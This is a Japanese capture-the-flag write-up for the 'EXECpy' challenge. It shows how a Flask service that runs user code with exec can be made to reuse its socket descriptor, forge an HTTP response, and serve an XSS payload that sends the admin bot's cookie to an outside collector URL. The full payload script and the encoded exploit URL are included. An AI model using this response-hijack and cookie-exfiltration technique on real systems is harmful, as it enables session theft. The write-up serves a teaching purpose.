




# EXECpy

## 問題文
RCEがめんどくさい?  
データを`exec`に渡しといたからRCE2XSSしてね!  

[http://118.27.109.12:31416](http://118.27.109.12:31416)  

**AdminBot:** [http://118.27.109.12:31416/crawler](http://118.27.109.12:31416/crawler)  

Hint  
wowwow  

## 難易度
**hard**  

## 作問にあたって
DEF CON 31で小さく開催されていたSpaceX Security Challengeにpotetisenseiと出た際のテクニックをXSSに落とし込みました。  
pickleでRCEができるシナリオでサーバ内部のバイナリを取得する必要があったのですが、アウトバウンド通信や応答時間でのオラクルができない(共に運営インフラの問題)状況でした。  
そこで開いているfdに取得したいデータを流し込んでHTTP応答として返すことで、入手する手法を用いていました。  
現実ではXSS2RCEは最高ですが、RCE2XSSはうれしくないです。  

## 解法
URL、AdminBot、ソースコードが渡される。  
アクセスするとPythonのexecでコードを実行できる謎のサービスだ。  
  
ただし実行結果は返してくれない。  
  
URLは`http://118.27.109.12:31416/?code=print%281%29`であり、コードをクエリに渡せる。  
AdminBotがあることからもXSS問題だろう。  
  
ソースを見るとメインのアプリケーションは以下の通りであった。  
```python
from flask import Flask, render_template, request

app = Flask(__name__)


@app.route("/", methods=["GET"])
def index():
    code = request.args.get("code")
    if not code:
        return render_template("index.html")

    try:
        exec(code)
    except:
        pass

    return render_template("result.html")


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=31416)
```
クローラーも見ると以下のように、Playwrightでcookieにフラグを付けてユーザの入力URLにアクセスしている。  
ただし、フラグが付くためには`if ("Tsukushi/2.94" in header) and ("🤪" not in content):`の制限がある。  
```python
import os
import asyncio
from playwright.async_api import async_playwright
from flask import Flask, render_template, request

app = Flask(__name__)

DOMAIN = "nginx"
FLAG = os.environ.get("FLAG", "TsukuCTF23{**********REDACTED**********}")


@app.route("/crawler", methods=["GET"])
def index_get():
    return render_template("index_get.html")


async def crawl(url):
    async with async_playwright() as p:
        browser = await p.chromium.launch()
        page = await browser.new_page()

        try:
            response = await page.goto(url, timeout=5000)
            header = await response.header_value("Server")
            content = await page.content()

            if ("Tsukushi/2.94" in header) and ("🤪" not in content):
                await page.context.add_cookies(
                    [{"name": "FLAG", "value": FLAG, "domain": DOMAIN, "path": "/"}]
                )
                if url.startswith(f"http://{DOMAIN}/?code=") or url.startswith(
                    f"https://{DOMAIN}/?code="
                ):
                    await page.goto(url, timeout=5000)
        except:
            pass

        await browser.close()


@app.route("/crawler", methods=["POST"])
def index_post():
    asyncio.run(
        crawl(
            request.form.get("url").replace(
                "http://localhost:31416/", f"http://{DOMAIN}/", 1
            )
        )
    )
    return render_template("index_post.html")


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=31417)
```
もう一度メインのアプリケーションの応答を確認する。  
```bash
$ curl 'http://118.27.109.12:31416/?code=print%281%29' -I
HTTP/1.1 200 OK
Server: nginx/1.25.3
Date: Sat, 09 Dec 2023 00:00:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1059
Connection: close

$ curl 'http://118.27.109.12:31416/?code=print%281%29'
~~
                <p class="block text-gray-700 text-sm font-bold mb-2">
                    Your code has been executed. However, no results will be returned. 🤪
                </p>
~~~
```
`Server`レスポンスヘッダーは`nginx/1.25.3`であるので`Tsukushi/2.94`ではない。  
また、`🤪`もレスポンスボディに含まれている。  
これらがなければ`request.cookies.get`で取得したフラグを外部に送信するだけで済む(`/bin/*`が無いが)。  
以上のことよりexecを行うことでFlaskの応答結果のレスポンスヘッダーとレスポンスボディを書き換えてXSSする問題だとわかる。  
ここでexecがHTTP通信中に行われるため、Flask(かWerkzeug)がfdを保持しており、そこにデータを流し込むことでうまくレスポンスを書き換えることができそうなことに気づく。  
もしくは、execで自由度が高いのでPythonのメモリ上に乗っているテンプレートを書き換えることもできるかもしれない。  
後者はアプリケーションを破壊しそうなので、前者を試す。  
Flask(かWerkzeug)がfdに書き込んでいないかソースコードを調査する。  
[Flask Source Code](https://github.com/search?q=repo%3Apallets%2Fflask%20file%20descriptor&type=code)  
[Werkzeug Source Code](https://github.com/search?q=repo%3Apallets%2Fwerkzeug%20file%20descriptor&type=code)  
これらを見ると[`socket.fromfd`の箇所](https://github.com/pallets/werkzeug/blob/eafbed0ce2a6bdf60e62de82bf4a8365188ac334/src/werkzeug/serving.py#L778)が使えそうなことがわかる。  
[ここ](https://docs.python.org/3/library/socket.html#socket.fromfd)を見るとすでにあるソケット参照のfdからソケットオブジェクトを作ってくれるらしいことがわかる。  
これを用いてHTTPリクエストを流し込んでみる。  
```python
import socket
for fd in range(100):
    try:
        sock = socket.fromfd(fd, socket.AF_INET, socket.SOCK_STREAM)
        sock.sendall(b'''HTTP/1.1 200 OK
Content-Length: 6
Content-Type: text/html
Connection: Closed

Satoki''')
    except Exception as e:
        pass
```
実行する。  
```bash
$ curl 'http://118.27.109.12:31416/?code=import+socket%0D%0Afor+fd+in+range%28100%29%3A%0D%0A++++try%3A%0D%0A++++++++sock+%3D+socket.fromfd%28fd%2C+socket.AF_INET%2C+socket.SOCK_STREAM%29%0D%0A++++++++sock.sendall%28b%27%27%27HTTP%2F1.1+200+OK%0D%0AContent-Length%3A+6%0D%0AContent-Type%3A+text%2Fhtml%0D%0AConnection%3A+Closed%0D%0A%0D%0ASatoki%27%27%27%29%0D%0A++++except+Exception+as+e%3A%0D%0A++++++++pass' -v
*   Trying 118.27.109.12:31416...
* Connected to 118.27.109.12 (118.27.109.12) port 31416 (#0)
> GET /?code=import+socket%0D%0Afor+fd+in+range%28100%29%3A%0D%0A++++try%3A%0D%0A++++++++sock+%3D+socket.fromfd%28fd%2C+socket.AF_INET%2C+socket.SOCK_STREAM%29%0D%0A++++++++sock.sendall%28b%27%27%27HTTP%2F1.1+200+OK%0D%0AContent-Length%3A+6%0D%0AContent-Type%3A+text%2Fhtml%0D%0AConnection%3A+Closed%0D%0A%0D%0ASatoki%27%27%27%29%0D%0A++++except+Exception+as+e%3A%0D%0A++++++++pass HTTP/1.1
> Host: 118.27.109.12:31416
> User-Agent: curl/7.81.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.25.3
< Date: Sat, 09 Dec 2023 00:00:00 GMT
< Content-Type: text/html
< Content-Length: 6
< Connection: close
<
* Closing connection 0
Satoki
```
無事に応答を書き換えることができた。  
あとは適切なレスポンスヘッダーを設定し、XSSしてフラグを外部サーバに送信してやればよい。  
以下のpayload.pyでXSSペイロードの作成を行う。  
```python
# This script is inspired by potetisensei

URL = "https://en9i5fcxybxwa.x.pipedream.net/" # Your server

payload = f"""
<!DOCTYPE html>
<html lang="en">
    <head></head>
    <body>
    <script>location.href='{URL}?s='+document.cookie</script>
    </body>
</html>
"""

print(
    f"""
import socket
for fd in range(100):
    try:
        sock = socket.fromfd(fd, socket.AF_INET, socket.SOCK_STREAM)
        sock.sendall(b'''HTTP/1.1 200 OK
Server: Tsukushi/2.94
Content-Length: {len(payload)}
Content-Type: text/html
Connection: Closed

{payload}''')
    except Exception as e:
        pass
"""
)
```
実行する。  
```bash
$ python payload.py

import socket
for fd in range(100):
    try:
        sock = socket.fromfd(fd, socket.AF_INET, socket.SOCK_STREAM)
        sock.sendall(b'''HTTP/1.1 200 OK
Server: Tsukushi/2.94
Content-Length: 178
Content-Type: text/html
Connection: Closed


<!DOCTYPE html>
<html lang="en">
    <head></head>
    <body>
    <script>location.href='https://en9i5fcxybxwa.x.pipedream.net/?s='+document.cookie</script>
    </body>
</html>
''')
    except Exception as e:
        pass

```
これをURLクエリに設定すると以下になる。  
```
http://118.27.109.12:31416/?code=%0D%0Aimport+socket%0D%0Afor+fd+in+range%28100%29%3A%0D%0A++++try%3A%0D%0A++++++++sock+%3D+socket.fromfd%28fd%2C+socket.AF_INET%2C+socket.SOCK_STREAM%29%0D%0A++++++++sock.sendall%28b%27%27%27HTTP%2F1.1+200+OK%0D%0AServer%3A+Tsukushi%2F2.94%0D%0AContent-Length%3A+178%0D%0AContent-Type%3A+text%2Fhtml%0D%0AConnection%3A+Closed%0D%0A%0D%0A%0D%0A%3C%21DOCTYPE+html%3E%0D%0A%3Chtml+lang%3D%22en%22%3E%0D%0A++++%3Chead%3E%3C%2Fhead%3E%0D%0A++++%3Cbody%3E%0D%0A++++%3Cscript%3Elocation.href%3D%27https%3A%2F%2Fen9i5fcxybxwa.x.pipedream.net%2F%3Fs%3D%27%2Bdocument.cookie%3C%2Fscript%3E%0D%0A++++%3C%2Fbody%3E%0D%0A%3C%2Fhtml%3E%0D%0A%27%27%27%29%0D%0A++++except+Exception+as+e%3A%0D%0A++++++++pass%0D%0A
```
crawlerに投げると以下のようなリクエストが届く。  
  
flagが得られた。  

## TsukuCTF23{175_4_73rr1bl3_4774ck_70_1n73rrup7_h77p}
